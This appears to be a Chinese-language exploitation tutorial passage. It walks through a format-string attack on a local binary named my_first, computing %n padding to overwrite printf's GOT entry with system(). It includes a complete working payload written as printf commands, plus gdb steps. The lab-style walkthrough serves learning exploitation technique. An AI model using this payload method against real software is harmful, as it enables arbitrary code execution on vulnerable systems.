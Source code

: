 ....... 这里的 P 是 printf system

可以看到 system() 在 0x40069060.... 现在要使用的格式化字符串漏洞来写（使用 %n）printf() 在 **08049bfc** 上的新地址... 以 08049bfc 点在 system() 的 0x40069060 写，而不是其真正的位置...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuGTZiau1orNyxaYIzdkhoU7upu9s8RFiaZ21HVJjia8uANkd7Qx3KiaYx6w/640?wx_fmt=png)

```
printf '1\n1\n\xfc\x9b\x04\x08%%8$n' > dayu
x/x 0x08049bfc
```

可以看到准备格式字符串所需的填充时，主要为了调试应用程序...

上图是将使用 printf() 用于管道的方法对./my_first 来重定向到文件，然后在中 gdb 中运行二进制文件，可以看到使用编译的文件来重定向输入到 printf()...

结果可以看到，正按照我的思路走着，继续...

剩下的就是填充格式字符串....

这里我详细的讲解下，NO.36 章里面格式字符串最后有算数的地方...

这边使用 python 来计算内存写入字节数，要做的是在内存位置写入字节数，要写到 system 位置，前面知道它的内存位于 0x40069060，我们将计算分为两部分，首先写 0x9060，然后写 0x4006，我们可以看到已经写入了 4 个字节...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuY54aqp0BEJ57j1GTmEt6QlfwgbkbkYoU7ibKicsJguvrxV7JhjBZcnzw/640?wx_fmt=png)

```
shell echo $(python -c 'print 0x9060-0x4')
```

可以看到写入的前四个字节是：36956，然后减去 4 个字节，是 36952，并填充 pad 参数 8...

现在要确定地址的上半部分，将进行另一次十六进制计算，并从所需数量中删除所拥有的数量...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEu606hsdfBHlz14FS9WlusibZYNiaXJ32Mr9Zdnjj0Zbo7thGR3b9DbF2Q/640?wx_fmt=png)

```
shell echo $(python -c 'print 0x14006-0x9060')
```

这里需要在最低有效位上加一个 1，这会进入相同的内存地址，0x14006 在去进行减法... 可以看到：44966

这里末尾添加％9 $ n 才能真正覆盖此地址...

```
这里生成的格式字符串为：\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuKcYKibHqfN6xbhwAdOYA4ic4DP6UPkrVMnhhJ3kXiboeTsTiavabkAeLsg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEujcDseUnjfFRXNTqeHVkdvhJ33MU2H1KXq11sntViaeV75rzPScEz3sw/640?wx_fmt=png)

```
printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > dayu
```

这里出现了 sh: 1: Selection:: not found 说明已经快完成了，没出现就前面出错了...

经过检验... 输出是正确的... 确认可以用 system（）覆盖 printf（）了..
